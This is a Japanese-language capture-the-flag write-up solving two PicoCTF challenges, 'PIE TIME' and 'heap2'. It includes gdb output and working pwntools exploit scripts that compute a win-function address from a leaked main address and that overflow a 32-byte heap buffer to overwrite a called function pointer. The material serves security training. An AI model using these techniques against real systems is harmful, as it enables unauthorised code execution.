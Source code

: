 ## PicoCTF

### PIE TIME

プログラムを実行するとmain関数のアドレスが表示され、
プログラムは入力したアドレスの関数を実行することができる
win関数が存在し、ここに飛べばフラグを取得できる
→main関数とwin関数の差分を計算すれば良い

```
gef➤  b *main
Breakpoint 1 at 0x133d
gef➤  p(*main - *win)
$1 = 0x96
```

オフセットは0x96であることがわかった
つまり以下でフラグを取得できる

```
from pwn import *

#target = process("./vuln")
target = remote('rescued-float.picoctf.net',59172)

rec = target.recvline()
rec2 = rec.split(b': ')[1][:-1]

rec2_str = rec2.decode('utf-8')

value = int(rec2_str, 16)

result = value - 0x96
hex_result = hex(result)

print(hex_result)

#recv.split(b' : ')[1][:-1]
target.sendlineafter(b'Enter the address to jump to, ex => 0x12345:',hex_result)
target.interactive()
```

### heap2

・heapをA*32するとオーバーフローする  
・最終的にはwin関数を呼び出せばフラグを取得できる  
・4番を選択するとcheck_win関数を呼び出す  
  
check_win関数のソースコード

```
void check_win() { ((void (*)())*(int*)x)(); }
```

#### ((void (*)())*(int*)x)();について

x が指すアドレスに格納されている整数値を関数ポインタと見なし、その関数を「呼び出す」コードです。

つまり、**オーバーフローさせてxの値にwin関数を書き込んで上げればフラグを取得できる**

ソースコード
```
from pwn import *
import time

#target = process('./chall')
target = remote('mimas.picoctf.net',54745)
binf = ELF('./chall', checksec=False)

context.log_level = 'debug'

print(p64(binf.symbols['win']).hex())

payload = b'A'*32 + p64(binf.symbols['win'])
#payload = b'A'*32 + bytes.fromhex(p64(binf.symbols['win']).hex())
print(payload)

#time.sleep(1000)

target.sendlineafter(b'Enter your choice: ',b'2')

target.sendlineafter(b'Data for buffer:',payload)

target.sendlineafter(b'Enter your choice: ',b'4')
target.interactive()
```
